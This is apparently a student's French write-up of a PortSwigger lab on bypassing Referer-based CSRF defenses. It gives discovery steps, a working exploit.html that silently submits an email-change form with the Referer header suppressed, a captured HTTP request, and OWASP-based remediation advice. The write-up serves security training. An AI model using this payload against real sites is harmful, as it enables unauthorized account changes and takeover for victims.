

## Challenge 2 – CSRF bypassing referer-based defenses

- **Nom :** CSRF bypassing referer-based defenses
- **URL :** https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present

### Étapes de découverte

1. Ouverture du lab.
2. Navigation sur la page produit et observation des requêtes dans l’onglet `Proxy → HTTP history`.
3. Identification d’une requête de type `POST /my-account/change-email` pour la modification de l'email.
4. Observation du header `Referer` qui est présent et valide.
5. Création d'un fichier `exploit.html` qui va submit le formulaire de modification d'email avec la balise `<meta name="referrer" content="never">` pour supprimer le header Referer
```html
<html>
    <head>
        <meta name="referrer" content="never">
    </head>
    <body>
        <h1>hello world</h1>
        <iframe style="display: none" id="csrf-iframe"></iframe>
        <form action="https://0a9900f10460866b805c03dd00d80022.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <input type="hidden" name="email" value="test@test.com">
        </form>
        <script>
            document.getElementById('csrf-form').submit();
        </script>
    </body>
</html>
```
6. Envoi de l'exploit.html vers le lab et observation de la requête dans l'onglet `Proxy → HTTP history`.
7. Observation que le header Referer est absent grâce à la balise meta, permettant de contourner la validation basée sur le Referer.
8. Validation du challenge.

### Payload utilisé et screenshot

```text
POST /my-account/change-email HTTP/1.1
Host: 0a9900f10460866b805c03dd00d80022.web-security-academy.net
Cookie: session=yv71JOOk4pINIb0t3wYrynz4vOXos6va
Content-Length: 21
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0a9900f10460866b805c03dd00d80022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9900f10460866b805c03dd00d80022.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

email=test%40test.com
```



### Les recommandations

Pour éviter ce type de contournement CSRF, il est recommandé de :

1. **Utiliser des tokens CSRF (CSRF tokens)** : Implémenter des tokens CSRF uniques et aléatoires pour chaque session utilisateur. Ces tokens doivent être inclus dans chaque formulaire et vérifiés côté serveur lors de la soumission. Cette méthode est la plus robuste car elle ne dépend pas des headers HTTP qui peuvent être manipulés ou absents.

   **Source :** [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

2. **Valider strictement le header Referer** : Si vous devez utiliser la validation basée sur le Referer, assurez-vous de vérifier que le Referer correspond exactement à votre domaine et qu'il est présent. Cependant, cette méthode est moins fiable car le header Referer peut être supprimé par des balises `<meta name="referrer" content="never">` ou par des configurations de navigateur/privacy.

   **Source :** [OWASP CSRF Prevention Cheat Sheet - Verifying Same Origin with Standard Headers](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-same-origin-with-standard-headers)

3. **Utiliser le header Origin en complément** : Vérifier le header `Origin` en plus du `Referer`. Le header Origin est plus difficile à manipuler et ne peut pas être supprimé par les balises meta. Cependant, il peut également être absent dans certains cas (requêtes GET, redirections).

   **Source :** [OWASP CSRF Prevention Cheat Sheet - Verifying Same Origin with Standard Headers](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-same-origin-with-standard-headers)

4. **Implémenter SameSite cookies** : Utiliser l'attribut `SameSite=Strict` ou `SameSite=Lax` sur les cookies de session. Cela empêche les navigateurs d'envoyer les cookies lors de requêtes cross-site, réduisant ainsi le risque d'attaques CSRF.

   **Source :** [OWASP CSRF Prevention Cheat Sheet - SameSite Cookie Attribute](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#samesite-cookie-attribute)

5. **Ne pas dépendre uniquement de la présence du header Referer** : La validation qui dépend uniquement de la présence du header Referer est vulnérable car ce header peut être supprimé. Il faut toujours implémenter une défense en profondeur avec plusieurs mécanismes de protection.

   **Source :** [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

Ces approches garantissent une protection robuste contre les attaques CSRF, même lorsque les headers HTTP peuvent être manipulés ou absents.